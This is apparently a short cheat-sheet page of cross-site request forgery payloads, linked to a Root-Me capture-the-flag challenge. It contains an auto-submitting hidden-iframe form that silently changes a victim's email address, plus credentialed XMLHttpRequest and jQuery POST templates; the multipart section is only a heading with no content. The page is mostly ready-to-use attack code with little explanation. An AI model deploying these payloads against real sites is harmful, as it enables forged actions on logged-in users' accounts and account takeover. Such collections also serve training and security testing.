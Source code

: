 
# Form POST request through iframe

          <!-- 
          The request is sent through the iframe withuot reloading the page 
          -->
          <html>
            <body>
            <iframe style="display:none" name="csrfframe"></iframe> 
              <form action="/change-email" id="csrfform" target="csrfframe">
                <input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" />
                <input type="submit" value="Submit request" />
              </form>
              <script>
                document.forms[0].submit();
              </script>
            </body>
          </html>

# Ajax POST request

              <script>
              var xh;
              if (window.XMLHttpRequest)
                {// code for IE7+, Firefox, Chrome, Opera, Safari
                xh=new XMLHttpRequest();
                }
              else
                {// code for IE6, IE5
                xh=new ActiveXObject("Microsoft.XMLHTTP");
                }
              xh.withCredentials = true;
              xh.open("POST","http://challenge01.root-me.org/web-client/ch22/?action=profile");
              xh.setRequestHeader('Content-type', 'application/x-www-form-urlencoded'); //to send proper header info (optional, but good to have as it may sometimes not work without this)
              xh.send("username=abcd&status=on");
              </script>

              <script>
              //JQuery version
              $.ajax({
                type: "POST",
                url: "https://google.com",
                data: "param=value&param2=value2"
              })
              </script>

# multipart/form-data POST request
